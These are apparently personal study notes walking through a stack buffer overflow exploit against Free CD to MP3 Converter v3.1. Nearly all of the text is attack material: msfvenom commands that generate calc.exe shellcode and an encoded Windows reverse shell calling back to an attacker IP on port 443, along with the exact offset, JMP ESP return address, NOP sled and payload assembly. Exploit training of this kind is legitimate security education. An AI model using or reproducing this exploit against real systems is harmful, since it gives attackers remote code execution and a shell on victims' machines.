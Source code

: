 # Stack Based Buffer Overflow 
##  Exploiting Free CD to MP3 Converter v3.1

> Creating a shellcode and jumping to it so we can have full control

### Generating a payload

`msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python' -b '\x00'`

windows/exec: 32 bit payload 
CMD='': What we want to execute
-f: Format/language we want the output in 
-b: Bad characters 

### Final Payload

1. Buffer to fill out memory before EIP b"A" * offset
2. EIP: 4 bytes as our return address -> Gotten from `8 Finding Return Instruction`
3. buf: Our shellcode

To convert JMP ESP from `hex` to an address in Little Endian, we'll use a python function called `pack` found in the `struct` library

```
	offset = 4112
    buffer = b"A"*offset
    eip = pack('<L', 0x00457418)
    buf = "" # shellcode
```

### Shellcode Padding

Due to the salignemnt and the programs stack frame, the start of our shellcode might get skipped, in order to prevent that we can add junk padding -  `NOP Bytes`.

```
	nop = b"\x90"*32
    payload = buffer + eip + nop + buf

```



### Gaining code exec

To gain code execution change either from the above options 

1. Change payload to CMD= cmd.exe (privesc)
2. Change the msfvenom buf payload (rev shell)

	`msfvenom -p 'windows/shell_reverse_tcp' LHOST=OUR_IP LPORT=OUR_LISTENING_PORT -f 'python' -b "\x00\x0A\x0D"` 

This will ensure that the program will not crash after our payload fails
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```
